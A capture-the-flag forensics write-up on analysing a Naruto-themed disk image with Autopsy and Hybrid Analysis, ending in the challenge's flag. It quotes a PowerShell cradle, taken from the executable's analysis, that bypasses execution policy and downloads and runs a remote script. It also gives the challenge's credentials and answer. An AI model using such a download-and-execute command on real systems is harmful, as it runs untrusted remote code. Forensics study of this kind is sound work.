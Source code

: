# uwu
## Challenge Overview
In this challenge, we are provided with an E01 disk image file. The challenge mentions that a user who loves Naruto is involved, hinting at possible clues related to the user "Naruto." This writeup covers the steps I took using Autopsy and Process Monitor to analyze the disk image and ultimately retrieve the flag.

## Setup Data Source in Autopsy
- Add Data Source: Start by adding the E01 file as a data source in Autopsy.
- Select Disk Image: Choose "disk image and VM file" as the source type.
- Select the File: Choose the provided E01 file.
- Ingest Modules: Enable all options for thorough analysis (recommended for CTF purposes).
## Disk Analysis
The challenge hinted at a user named "Naruto," so I explored the Users/Naruto directory. The key folders were:

- Desktop
- Documents
- Downloads

In the Downloads folder, I found several Base64 encoded ```MP4 files```, a ```private.rar``` file, an executable, and an image file. Decoding the Base64 files led to dead ends, but I continued by extracting the contents of private.rar.
![image](https://github.com/user-attachments/assets/073d832a-2143-47ef-bda5-b6cab180815c)

## Analyzing private.rar
Extracting ```private.rar``` requires a password, which is found in the ```credentials.txt``` file (dattebayo). However, after extracting the file, it only contains more base64-encoded Naruto videos—a dead end.
```
# credentials.txt
naruto:dattebayo
hinata:iloveyou
itachi:shisui
jiraiya:tsunade
```
## Analyzing kotoamatsukami.exe
This executable file appeared to be the key to the challenge, but analyzing it required malware analysis skills. The challenge creator suggested using Process Monitor (ProcMon), a Windows tool, to monitor the program’s behavior.

Since running the file on a host machine is risky, it was instead uploaded to <a href="https://www.hybrid-analysis.com/">Hybrid Analysis</a>, a free automated malware analysis service. The analysis revealed a crucial PowerShell command:
The analysis revealed a crucial PowerShell command:

```powershell
powershell -exec bypass -c 'Invoke-WebRequest https://gist.githubusercontent.com/zachwong02/9f9054bc9db15aeb453dc37e59878aac/raw/48f39f9328189ae8260c6e040eb6d3b57403135e/gistfile1.txt | iex'
```
![image](https://github.com/user-attachments/assets/53d9369a-3bc1-4e7d-9fa3-e35c416c227d)

This command downloads and executes a script from a GitHub Gist. Analyzing the script, I found that it reads metadata from an image file, ```genjustsu.jpg```, extracted earlier from the disk image.

## Retrieving the Flag
To get the flag:

- Create a PS1 Script: Copy the downloaded script into a .ps1 file.
- Place the Image: Ensure genjustsu.jpg is in the same directory as the script.
- Run the Script: Executing the script revealed the flag.
```powershell
$chars = Get-FileMetaData $env:USERPROFILE\\Documents\uwu\Export\260-genjutsu.jpg | Select-Object -ExpandProperty "Title"
$chars[0] + $chars[1] + $chars[14] + $chars[7] + $chars[54] + $chars[55] + $chars[65] + $chars[41] + $chars[4] + $chars[17] + $chars[57] + $chars[62] +$chars[18] + $chars[45] + $chars[55] + $chars[13] + $chars[2] + $chars[4] +  $chars[63] +  $chars[62] + $chars[57] + $chars[63] + $chars[38] +  $chars[50] + $chars[63] + $chars[39] +  $chars[34] + $chars[39] + $chars[35] + $chars[64] + $chars[63] + $chars[48] + $chars[26] + $chars[24] + $chars[66]
```
> The Get-FileMetaData module is not a default PowerShell module in Windows. If you attempt to run a script using this module without first installing it, you'll encounter an error. To resolve this, you can download the module from the link provided and import it into your PowerShell session. Once imported, the script should work as expected. You can download the module <a href="https://gist.github.com/woehrl01/5f50cb311f3ec711f6c776b2cb09c34e">here.</a>
```powershell
PS C:\Users\Documents\uwu\Export> Import-Module -Name "C:\Users\Documents\uwu\Export\Get-FileMetaData"
PS C:\Users\Documents\uwu\Export> ./script
ABOH23{pER5!St3NCE_!5_my_ninj@_waY} 
```
## Flag
```ABOH23{pER5!St3NCE_!5_my_ninj@_waY}```
